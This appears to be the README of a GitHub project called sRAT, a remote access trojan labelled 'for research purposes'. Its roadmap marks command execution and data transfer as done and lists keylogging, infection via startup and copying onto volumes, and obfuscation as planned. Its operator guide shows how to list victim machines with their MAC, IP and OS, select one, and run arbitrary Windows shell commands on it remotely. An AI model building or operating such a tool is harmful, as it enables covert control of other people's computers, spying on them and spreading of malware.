 # sRAT

A small remote access trojan, for research purposes.

## todo list

1. DONE: communication
    1. DONE: server host
    2. DONE: request syntax
2. features
    1. DONE: command exec
    2. DONE: data transfer
    3. *key logging*
3. infection
    1. startup
    2. copy on volumes
4. sneak
    1. obfuscation
    2. encryption

## git usage

Always use **branches** when implementing a *feature* or a *fix*, with syntax `feature/yourName/featureName` or `fix/yourName/bugToFix`, and be careful when merging.

## server usage

You may insert commands after the `>` prompt. At any time, you can list commands typing `help`.

### select client

#### list all connected clients

To display all connected clients, use

	>list

It will output a two-column array, with ids and MACs of all connected clients.

	>list
	id     MAC address         IP Address     OS
	1234   AA-BB-CC-DD-EE-FF   /192.168.1.2   Windows 10
	5678   00-11-22-33-44-55   /192.168.1.3   Windows 7

#### select one client

To selcet a client, use `select ID`. For example,

	>select 1234
	Selected client 1234
	1234*>

It may take up to 10 seconds to connect (the time between two clients ping). Now the prompt should begin as follows:

	Client 1234 connected.
	1234>

### execute a command

When a client is selected, make it execute a command with `exec YOUR_COMMAND`.

	1234>exec ipconfig
	Added command to stack

It might take a few seconds, and then the output will be printed. If the client is using Windows, you can start any shell command with

	1234>exec cmd.exe /C YOUR_COMMAND

The output will be sent back to you.